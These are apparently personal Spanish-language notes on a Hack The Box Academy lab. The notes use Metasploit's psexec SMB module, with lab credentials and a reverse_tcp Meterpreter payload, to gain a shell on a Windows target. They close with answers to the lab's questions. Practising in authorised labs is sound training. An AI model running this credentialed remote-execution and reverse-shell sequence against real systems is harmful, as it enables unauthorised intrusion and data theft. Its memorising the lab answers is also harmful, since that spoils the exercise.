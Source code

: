 Iniciamos #metasploit 
==`msfconsole`==

![[Pasted image 20241108205420.png]]

Trabajaremos sobre la maquina victima ==10.129.173.205==
realizamos un escaneo de nmap 
![[Pasted image 20241108210845.png]]
el cual vemos como posible vector de ataque sobre el Puerto 445 SMB
veremos que version utiliza el sistema con nmap
![[Pasted image 20241108211138.png]]

usaremos el exploit numero 0de metasploit
use 0
configuraremos el exploit usando 
options
![[Pasted image 20241108212117.png]]
 las opciones son las siguientes 
```bash
 msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   Used when making a new connection via RHOSTS:
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   Used when connecting via an existing SESSION:
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.6.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:

   Id  Name
   --  ----
   0   Automatic
View the full module info with the info, or info -d command.
```

Configuramos sus parametros de la siguiente manera 
```shell
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.173.205
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.17.48
```

finalmente podemos hacer uso del exploit 
```shell
msf6 exploit(windows/smb/psexec) > exploit
```
La salida confirma el éxito cuando se abre una sesión Meterpreter (`meterpreter >`). **Meterpreter** es un payload que usa inyección de DLL en memoria para establecer un canal de comunicación entre el equipo de ataque y el objetivo. Con las credenciales y el vector de ataque correctos, podemos subir y descargar archivos, ejecutar comandos, gestionar procesos y más.

![[Pasted image 20241108213018.png]]
### Documentación y Funcionalidades

Como detalla la documentación de Rapid7, este módulo utiliza un nombre y descripción aleatorios para el servicio creado, permitiendo la limpieza automática después de la ejecución. La shell Meterpreter permite comandos específicos para interactuar con el sistema objetivo. Podemos usar `?` para ver una lista de comandos y el comando `shell` para acceder a una shell a nivel del sistema si necesitamos ejecutar comandos específicos del sistema.

Esta sesión nos proporciona un control más avanzado del sistema y representa una poderosa herramienta para pruebas de penetración cuando se usa con responsabilidad y conocimiento de sus efectos.

#### Actividad
1) What command language interpreter is used to establish a system shell session with the target?
	R// powershell
1) Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)
	R// 
lanzamos una shell una vez conectados a meterpreter y escribimos shell
![[Pasted image 20241108213409.png]]

nos ubicamos en la carpeta en cuestion C:\Users\htb-student\Documents>
y vemos el archivo
==staffsalaries.txt==
